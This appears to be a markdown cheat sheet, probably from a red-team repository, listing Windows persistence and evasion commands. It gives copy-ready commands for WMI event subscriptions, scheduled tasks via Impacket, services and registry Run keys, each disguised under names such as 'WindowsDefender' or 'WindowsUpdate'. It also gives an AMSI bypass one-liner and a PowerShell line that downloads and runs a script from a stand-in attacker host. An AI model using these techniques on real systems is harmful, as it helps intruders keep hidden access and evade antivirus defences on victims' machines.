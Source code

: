 ### **🎭 Advanced Persistence Methods**

#### **WMI Event Subscriptions**
```powershell
# Create WMI persistence
$Query = "SELECT * FROM Win32_Process WHERE Name='notepad.exe'"
$Action = "powershell.exe -enc <base64_payload>"
Register-WmiEvent -Query $Query -Action { Start-Process $Action }

# Cleanup
Get-WmiObject -Class __EventFilter -Namespace root\subscription | Remove-WmiObject
```

#### **Scheduled Tasks Persistence**
```bash
# Linux - Impacket
atexec.py domain.com/user:pass@target 'schtasks /create /tn "UpdateTask" /tr "powershell -enc <payload>" /sc daily'

# Windows
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -w hidden -c <payload>" /sc onlogon /ru system
```

#### **Service Persistence**
```bash
# Create malicious service
sc create "WindowsDefender" binpath= "cmd.exe /c powershell -enc <payload>" start= auto
sc start "WindowsDefender"
```

#### **Registry Persistence**
```powershell
# Multiple registry persistence methods
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefender" -Value "powershell -enc <payload>"
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell -enc <payload>"
```

### **👻 Evasion Techniques**

#### **PowerShell Evasion**
```powershell
# AMSI Bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Execution Policy Bypass
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
powershell -w hidden -ep bypass -enc <base64_payload>

# Obfuscation
Invoke-Obfuscation
```
